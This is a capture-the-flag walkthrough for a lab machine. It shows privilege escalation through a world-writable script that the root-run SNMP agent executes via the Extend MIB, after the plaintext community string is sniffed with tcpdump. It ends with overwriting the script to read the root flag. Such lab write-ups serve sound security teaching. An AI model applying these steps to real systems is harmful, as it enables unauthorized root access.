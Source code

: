 # Keep it simple

## Task1
Start the machine, connect to 10.10.X.X using SSH an log in.


## Task2
First off lets see if there is anything interesting in the home directory;

    [monitor@simple ~]$ ls
    todo.txt

Better read this todo file;

    [monitor@simple ~]$ cat todo.txt
    The simple service should be running already!

    To do list:

    1 - Check the disk monitoring is working e.g

    'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkDisk"'
    
    2 - Also confirm with Dev team if they want camel, snake or kebab case this week (lol) and standardise the OID formats!


Ok so seems like some network monitoring development is underway on this host and a service called 'simple' is up and running.

Lets look into that service first;

    [monitor@simple ~]$ systemctl | grep simple
    simple.service                                                                           loaded active running   simple.ser                                       vice

    [monitor@simple ~]$ systemctl status simple.service
    ● simple.service
       Loaded: loaded (/etc/systemd/system/simple.service; enabled; vendor preset: disabled)
       Active: active (running) since Fri 2023-12-01 12:09:00 GMT; 13min ago
     Main PID: 646 (simple.server.s)
       CGroup: /system.slice/simple.service
               ├─ 646 /bin/bash /usr/local/bin/simple.server.sh
               └─1828 sleep 5

So, a script is being run but we have no idea what that is doing;

    [monitor@simple ~]$ cat /usr/local/bin/simple.server.sh
    cat: /usr/local/bin/simple.server.sh: Permission denied


Next lets look at the two tasks in the "to do" list

Looking at the hint in todo list task 1 we can also see that SNMP is being used and in particular the Extend MIB which "defines a framework for scripted extensions for the Net-SNMP agent" (quote from http://www.net-snmp.org/docs/mibs/)

Time to research the SNMP Extend MIB and find out what it's all about.  Here is a great primer from RedHat;

https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/deployment_guide/sect-system_monitoring_tools-net-snmp-extending

We have now learned that as well as reporting on the usual system and networking metrics SNMP can also be extentded to run custom scripts!

Looking at todo list task 2 we can get the idea that script names used here have not been standardised.  Don't know what that means but we can keep this in mind for later.

As we now know from todo list task 1 & our own research we now know the answer to task 2!

## Task3
How to ge that root flag?

Let's see if an SNMP server is running on our host;

    [monitor@simple ~]$ ss -tunnelp
    Netid  State      Recv-Q Send-Q                                 Local Address:Port                                                Peer Address:Port
    udp    UNCONN     0      0                                                  *:68                                                             *:*                   ino:17694 sk:ffff8f6d7a381980 <->
    udp    UNCONN     0      0                                          127.0.0.1:161                                                            *:*                   ino:18752 sk:ffff8f6d7a381dc0 <->
    udp    UNCONN     0      0                                          127.0.0.1:323                                                            *:*                   ino:15366 sk:ffff8f6d7a380cc0 <->
    udp    UNCONN     0      0                                              [::1]:323                                                         [::]:*                   ino:15367 sk:ffff8f6d779fc000 v6only:1 <->
    tcp    LISTEN     0      128                                                *:22                                                             *:*                   ino:18595 sk:ffff8f6d77b8c000 <->
    tcp    LISTEN     0      128                                        127.0.0.1:199                                                            *:*                   ino:18753 sk:ffff8f6d77b8c7c0 <->
    tcp    LISTEN     0      128                                             [::]:22                                                          [::]:*                   ino:18604 sk:ffff8f6d77b90000 v6only:1 <->

Yep!  We can also see that SNMP is running as root - oops :-D

    [monitor@simple ~]$ ps -ef | grep snmp
    root      1024     1  0 12:09 ?        00:00:01 /usr/sbin/snmpd -LS0-6d -f

Can't read the SNMP conf file :-(

    [monitor@simple ~]$ cat /etc/snmp/snmpd.conf
    cat: /etc/snmp/snmpd.conf: Permission denied


Lets see if we can see any SNMP traffic hitting our host - time to fire up tcpdump! We can use "-i any" switch to pick up traffic from all available interfaces;

    [monitor@simple ~]$ tcpdump -nn udp and port 161 -i any 
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
    12:29:57.498885 IP 127.0.0.1.43754 > 127.0.0.1.161:  C="******" GetRequest(28)  .1.3.6.1.2.1.1.5.0
    12:29:57.503196 IP 127.0.0.1.161 > 127.0.0.1.43754:  C="******" GetResponse(34)  .1.3.6.1.2.1.1.5.0="simple"
    12:30:02.524673 IP 127.0.0.1.56841 > 127.0.0.1.161:  C="******" GetRequest(28)  .1.3.6.1.2.1.1.5.0
    3 packets captured
    6 packets received by filter
    0 packets dropped by kernel

Jackpot!  We can see SNMP traffic on the loopback interface and whats more an older version (i.e. 1 or 2c) is being used to we can see the SNMP data - including the community
in plain text!

So let's recap what we now know;

* SNMP server is running as root on the loopback interface
* The SNMP community is "******"
* Some dev work is ongoing using the SNMP Extend MIB - which we now know from research can run shell scripts or other external programs
* The todo file tells us a script called checkDisk is under development

Let's try and run checkDisk!

    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkDisk"'
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkDisk" = STRING: 42%

Seems easy enough, lets find that script!

Lets start looking for file called something like "checkDisk"

    [monitor@simple ~]$ find / -type f -name checkDisk* 2>/dev/null
    [monitor@simple ~]$

Nothing!

Task 2 mentions some inconstency in file naming so let's be less specific;

    find / -type f -name check* 2>/dev/null" 

The /usr/local/bin/monitoring/ folder looks right.  

Time for a closer look;

    [monitor@simple ~]$ ls -al /usr/local/bin/monitoring/
    total 20
    drwxr-xr-x. 2 root root 116 Sep  6 12:44 .
    drwxr-xr-x. 3 root root  48 Dec  1 10:04 ..
    -rw-r--r--. 1 root root  11 Sep  6 08:24 check_disk.sh
    -rw-r--r--. 1 root root   8 Sep  6 08:39 check_interface.sh
    -rw-r--r--. 1 root root   8 Sep  6 08:40 check_mem.sh
    -rw-r--rw-. 1 root root  12 Sep  6 12:44 check_temp.sh
    -rw-r--r--. 1 root root   8 Sep  6 08:39 check_users.sh

Interesting - one of these files we can edit!!!  I wonder if we can run check_temp.sh from SNMP (as root!) and spawn a shell or run commands?

Lets try running it first in the same fashion as checkDisk;

    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkTemp"'
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkTemp" = No Such Instance currently exists at this OID

No dice!  

Recall from task 2 in the todo file that there was some inconsistency in OID formats and 3 formats mentioned;

1. camelCase   <------ worked Ok for check_disk.sh but not for check_temp.sh
2. snake_case
3. kebab-case

Let's try snake case;

    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check_temp"'
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check_temp" = No Such Instance currently exists at this OID

Thats not it. Let's try kebab case;

    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check-temp"'
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check-temp" = STRING: 37.5

Great! 

We have found a way to run check_temp.sh so let's use it to grab the root flag!

    [monitor@simple ~]$ echo "cat /root/root.txt" > /usr/local/bin/monitoring/check_temp.sh
    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check-temp"'
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check-temp" = STRING: *************************



Thanks for reading!
